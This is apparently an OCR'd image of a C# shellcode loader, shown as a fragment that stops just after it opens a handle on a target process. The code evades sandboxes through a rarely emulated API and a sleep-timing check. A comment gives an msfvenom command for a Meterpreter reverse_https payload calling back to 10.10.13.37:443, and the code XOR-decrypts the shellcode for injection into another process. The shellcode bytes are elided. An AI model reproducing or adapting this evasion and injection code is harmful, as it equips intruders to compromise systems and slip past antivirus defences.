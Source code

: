 ```cs 

    [DllImport("msvcrt.dll", CallingConvention = CallingConvention.Cdecl)]
    static extern int memcmp(byte[] b1, byte[] b2, UIntPtr count);

    static bool CompareByteArray(byte[] b1, byte[] b2) {
      return b1.Length == b2.Length && memcmp(b1, b2, (UIntPtr) b1.Length) == 0;
    }
    // END DEBUG

    static void Main(string[] args) {
      // Check if we're in a sandbox by calling a rare-emulated API
      if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero) {
        return;
      }

      // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
      var rand = new Random();
      uint dream = (uint) rand.Next(10000, 20000);
      double delta = dream / 1000 - 0.5;
      DateTime before = DateTime.Now;
      Sleep(dream);
      if (DateTime.Now.Subtract(before).TotalSeconds < delta) {
        Console.WriteLine("Charles, get the rifle out. We're being fucked.");
        return;
      }

      // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
      byte[] buf = new byte[ ?? ? ] {
        0x31,
        0x33,
        ...,
        0x33,
        0x37
      };

      // XOR-decrypt the shellcode
      for (int i = 0; i < buf.Length; i++) {
        buf[i] = (byte)(buf[i] ^ (byte)
          'a');
      }

      int bufLength = buf.Length;
      UInt32 uBufLength = (UInt32) bufLength;

      // Get handle on a local process
      IntPtr hLocalProcess = Process.GetCurrentProcess().Handle;

      // Get handle on a remote process (by name)
      string processName = args[0];
      Process[] pList = Process.GetProcessesByName(processName);
      if (pList.Length == 0) {
        Console.WriteLine("[-] No such process");
        return;
      }
      int processId = pList.First().Id;
      IntPtr hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
      if (hRemoteProcess == IntPtr.Zero) {
        Console.WriteLine("[-] Failed to open remote process");
        return;
      }
```